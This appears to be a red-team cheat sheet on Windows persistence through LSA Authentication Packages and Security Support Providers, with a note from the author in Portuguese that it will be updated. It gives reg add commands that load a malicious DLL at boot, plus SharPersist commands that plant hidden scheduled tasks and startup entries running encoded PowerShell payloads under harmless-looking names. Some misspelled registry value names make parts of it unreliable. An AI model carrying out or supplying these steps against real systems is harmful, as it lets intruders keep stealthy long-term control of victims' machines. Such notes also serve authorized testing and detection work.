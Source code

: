
#### LSA as persistence - Authentication Package and SSP

- https://attack.mitre.org/techniques/T1547/002/
- https://attack.mitre.org/techniques/T1547/005/
- https://hadess.io/the-art-of-windows-persistence/#h-lsa
- https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.002/src/package/package.c (custom mal dll example)
- https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.005/T1547.005.md
- https://pentestlab.blog/2019/10/21/persistence-security-support-provider/ (mimilib.dll example)

- Dll as auth package
```
"HKLM\system\currentcontrolset\control\lsa\Authentication Packages"
```

- Dll as SSP
```
"HKLM\system\currentcontrolset\control\lsa\Scurity Packages"
```

- Auth Package Dll 
1. Copy mal dll to C:\Windows\System32\

2. Add value to registry key
```
> reg add "HKLM\system\currentcontrolset\control\lsa" /v "Authetication Packages" /t REG_MULTI_SZ /d "msv1_0"\0"maldll.dll" /f
```

3. After reboot persistence is start


- Dll Security Package
1. Copy mal dll to C:\Windows\System32\

2. Add value to registry key
```
> reg add "HKLM\system\currentcontrolset\control\lsa" /v "Security Packages" /t REG_MULTI_SZ /d "maldll.dll" /f
```

3. After reboot persistence is start



#### Tools for automate

- SharPersist https://github.com/mandiant/SharPersist (prefer execute im-memory)
  - ```> execute-assembly C:\path\to\binary -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <B64-payload>" -n "Updater" -m add -o hourly```
  - ```> execute-assembly C:\path\to\binary -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <B64-payload>" -f "UserEnvSetup" -m add```


#### Conforme eu for achando e testando tecnicas e tools novas vou atualizar aqui.